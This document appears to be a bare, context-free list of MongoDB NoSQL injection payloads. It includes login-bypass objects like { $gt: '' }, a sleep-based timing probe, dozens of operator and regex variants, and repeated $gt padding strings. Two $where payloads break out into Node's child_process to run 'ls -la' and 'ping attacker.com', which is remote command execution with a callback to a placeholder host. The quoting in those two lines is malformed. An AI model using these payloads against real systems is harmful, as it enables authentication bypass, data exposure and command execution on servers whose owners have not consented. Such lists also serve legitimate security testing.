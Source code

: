 { username: { $gt: '' }, password: { $gt: '' } }
{ $ne: 1 }
{ $where: 'sleep(5000)' }
{ $gt: '' }
{ $gt: '', $comment: 'MongoDB NoSQL Injection' }
{ $ne: 1, $comment: 'MongoDB NoSQL Injection' }
{ $regex: /./, $options: 'i', $comment: 'MongoDB NoSQL Injection' }
{ $where: 'function() { return true; }', $comment: 'MongoDB NoSQL Injection' }
{ $gte: '', $lt: '', $comment: 'MongoDB NoSQL Injection' }
{ $or: [ { $gt: '' }, { $lt: '' } ], $comment: 'MongoDB NoSQL Injection' }
{ $or: [ { $gt: '' }, { $eq: '' } ], $comment: 'MongoDB NoSQL Injection' }
{ $and: [ { $gt: '' }, { $lt: '' } ], $comment: 'MongoDB NoSQL Injection' }
{ $nin: [ null, undefined ], $comment: 'MongoDB NoSQL Injection' }
{ $nor: [ { $exists: false }, { $type: 'null' } ], $comment: 'MongoDB NoSQL Injection' }
{ $size: 1, $comment: 'MongoDB NoSQL Injection' }
{ $type: 'number', $comment: 'MongoDB NoSQL Injection' }
{ $bitsAllSet: [ 1, 2 ], $comment: 'MongoDB NoSQL Injection' }
{ $bitsAnySet: [ 1, 2 ], $comment: 'MongoDB NoSQL Injection' }
{ $bitsAllClear: [ 1, 2 ], $comment: 'MongoDB NoSQL Injection' }
{ $bitsAnyClear: [ 1, 2 ], $comment: 'MongoDB NoSQL Injection' }
{ $regex: '.*', $options: 'i', $comment: 'MongoDB NoSQL Injection' }
{ $regex: '.*', $options: 'm', $comment: 'MongoDB NoSQL Injection' }
{ $regex: '.*', $options: 's', $comment: 'MongoDB NoSQL Injection' }
{ $regex: '.*', $options: 'si', $comment: 'MongoDB NoSQL Injection' }
{ $regex: '.*', $options: 'imsx', $comment: 'MongoDB NoSQL Injection' }
{ $where: 'this.constructor.constructor('return process')().mainModule.require('child_process').exec('ls -la', function(error, stdout, stderr) { console.log(stdout) }); return this', $comment: 'MongoDB NoSQL Injection' }
{ $where: 'this.constructor.constructor('return process')().mainModule.require('child_process').exec('ping attacker.com', function(error, stdout, stderr) { console.log(stdout) }); return this', $comment: 'MongoDB NoSQL Injection' }
{ $gt: 'a' }
{ $gt: 'aa' }
{ $gt: 'aaa' }
{ $gt: 'aaaa' }
{ $gt: 'aaaaa' }
{ $gt: 'aaaaaa' }
{ $gt: 'aaaaaaa' }
{ $gt: 'aaaaaaaa' }
{ $gt: 'aaaaaaaaa' }
{ $gt: 'aaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }
{ $gt: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' }